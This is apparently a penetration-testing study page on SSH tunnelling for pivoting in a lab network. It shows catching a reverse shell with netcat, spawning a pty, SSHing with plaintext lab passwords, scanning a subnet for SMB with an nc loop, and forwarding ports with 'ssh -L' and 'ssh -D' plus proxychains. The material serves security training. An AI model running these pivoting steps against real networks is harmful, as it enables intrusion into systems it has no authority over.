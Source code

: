 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# SSH Tunelling

**SSH tunneling encapsulates arbitrary network traffic inside an encrypted SSH connection**. It’s useful for securely accessing services across restrictive networks or pivoting through compromised systems. Port forwarding with SSH is controlled using options like `-L`, `-R`, and `-D`, depending on the direction of traffic.

## Local Port Forwarding

Local port forwarding is commonly used when you have **SSH access to a pivot machine** and want to access a service only it can reach. Unlike tools like `socat` or `chisel`, SSH is encrypted by design and blends into normal admin traffic. Expanding the [port forward scenario](port-foward.md):

* We compromised `CONFLUENCE01` (`192.168.125.63`) and have a reverse shell.
* From there, we can SSH to `PGDATABASE01` (`10.4.125.215`).
* `PGDATABASE01` has access to an SMB server on `HRSHARES` (`172.16.185.217:445`).

Our goal is to forward TCP port `445` on `172.16.185.217` to TCP port `4455` on `CONFLUENCE01`, then access it from our Kali machine.

{% tabs %}
{% tab title="1. SSH to PGDA" %}
{% code overflow="wrap" %}
```bash
$ nc -lvnp 4444
...
confluence@confluence01:/opt/atlassian/confluence/bin$ python3 -c 'import pty;pty.spawn("/bin/sh")'
$ ssh database_admin@10.4.125.215
...
database_admin@10.4.125.215's password: sqlpass123
...
database_admin@pgdatabase01:~$
```
{% endcode %}
{% endtab %}

{% tab title="2. Network Info" %}
{% code overflow="wrap" %}
```bash
database_admin@pgdatabase01:~$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
4: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:50:56:9e:a1:85 brd ff:ff:ff:ff:ff:ff
    inet 10.4.125.215/24 brd 10.4.125.255 scope global ens192
       valid_lft forever preferred_lft forever
5: ens224: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:50:56:9e:ab:53 brd ff:ff:ff:ff:ff:ff
    inet 172.16.125.254/24 brd 172.16.125.255 scope global ens224
       valid_lft forever preferred_lft forever
database_admin@pgdatabase01:~$ ip route
default via 10.4.125.254 dev ens192 proto static
10.4.125.0/24 dev ens192 proto kernel scope link src 10.4.125.215
172.16.125.0/24 dev ens224 proto kernel scope link src 172.16.125.254
```
{% endcode %}
{% endtab %}

{% tab title="3. Port Scanning" %}
We found that `PGDATABASE01` is on a `172.16.50.0/24` subnet. Without a port scanner, we used a Bash loop with `nc` to scan for hosts with port `445` open, discovering `172.16.50.217`.

{% code overflow="wrap" %}
```bash
database_admin@pgdatabase01:~$ for i in $(seq 1 254); do nc -zv -w 1 172.16.185.$i 445; done
<SNIP>
Connection to 172.16.185.217 445 port [tcp/microsoft-ds] succeeded!
<SNIP>
```
{% endcode %}
{% endtab %}

{% tab title="4. Tunnel" %}
Instead of transferring files through multiple hosts (`PGDATABASE01` to `CONFLUENCE01` to Kali) , we can set up an SSH local port forwarding from `CONFLUENCE01` to `PGDATABASE01`. A local port forward can be set up using OpenSSH's `-L` option, which takes two sockets in the format `IPADDRESS:PORT` separated with a colon as an argument:

1. The first socket is the **listening socket** that will be bound to the SSH client machine.
2. The second socket is **where we want to forward the packets to**.
3. The rest of the SSH command is as usual - pointed at the SSH server.

> _The `-N` flag prevents SSH from executing any remote commands, meaning we will only receive output related to our port forward._

```bash
# general format
ssh -N -L <localport>:<target-host>:<target-port> <user>@<ssh-server>

# CONF to PGDA tunnel
ssh -N -L 0.0.0.0:4455:172.16.125.217:445 database_admin@10.4.125.215
...
database_admin@10.4.125.215's password: sqlpass123
```
{% endtab %}

{% tab title="5. Connect" %}
From Kali, we can now list SMB shares.

```bash
$ smbclient -p 4455 -L //192.168.125.63/ -U hr_admin --password=Welcome1234

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Scripts         Disk
        Users           Disk
```
{% endtab %}
{% endtabs %}

<figure><img src="../../.gitbook/assets/ssh_local_port_forwarding_1.png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
**Why Local Port Forwarding?**

* Service (SMB) isn’t directly reachable from Kali.
* Service is reachable by `PGDATABASE01`.
* Tunnel traffic through an SSH session on `CONFLUENCE01` → `PGDATABASE01` → `HRSHARES`.
{% endhint %}

## Dynamic Port Forwarding

**Local port forwarding can only connect to one specific destination per SSH connection**. With **dynamic port forwarding**, instead of connecting to just one destination, it creates a **SOCKS proxy server** on the SSH client.&#x20;

A **SOCKS proxy** works like a mailroom — it takes in network requests, reads where they need to go, and forwards them through the SSH connection to any destination the SSH server can reach. The only requirement is that the software sending the requests must be able to use SOCKS. If it isn’t, extra steps are needed to make it compatible.

In our scenario, instead of connecting directly to port `445` on `HRSHARES`, we’ll do it through our SSH SOCKS proxy. The problem is that `smbclient` doesn’t have built-in support for SOCKS proxies. Since SOCKS proxies expect traffic in a specific format, `smbclient`’s normal traffic won’t work through it. To solve this, we’ll use `proxychains` — a tool that forces other programs to send their traffic through a proxy. `proxychains` works well with most dynamically linked programs but not with statically linked ones. To use `proxychains`:

{% tabs %}
{% tab title="1. Tunelling" %}
{% code overflow="wrap" %}
```bash
$ nc -lvnp 4444
...
confluence@confluence01:/opt/atlassian/confluence/bin$ python3 -c 'import pty;pty.spawn("/bin/sh")'
$ ssh -N -D 0.0.0.0:9999 database_admin@10.4.125.215
...
database_admin@10.4.125.215's password: sqlpass123
```
{% endcode %}
{% endtab %}

{% tab title="2. Proxychains Config" %}
```bash
$ tail -n1 /etc/proxychains.conf
socks5 192.168.125.63 9999
```
{% endtab %}

{% tab title="3. Connect" %}
{% code overflow="wrap" %}
```bash
$ sudo proxychains smbclient -L //172.16.125.217 -U hr_admin --password=Welcome1234
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  192.168.125.63:9999  ...  172.16.125.217:445  ...  OK

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Scripts         Disk
        Users           Disk
```
{% endcode %}
{% endtab %}
{% endtabs %}

> _Although we use **SOCKS5** here (which supports extra features like authentication and IPv6), **SOCKS4** could also work. Always check which version the proxy server supports during engagements._

{% hint style="success" %}
**Why Dynamic Port Forwarding?**

* Dynamically access any host and port reachable by the SSH server without needing to forward each port individually.
* Particularly useful in complex pivot scenarios where multiple services across subnets are in play.
{% endhint %}

For `nmap` via `proxychains` the `-sT` flag must be used; the default `sudo` scan (`-sS`) won't work.

| Scan Type       | Method                       | Proxychains Compatibility |
| --------------- | ---------------------------- | ------------------------- |
| `-sS` (SYN)     | Raw packets (no connect())   | ❌ Not compatible          |
| `-sT` (Connect) | Standard TCP connect() calls | ✅ Fully compatible        |
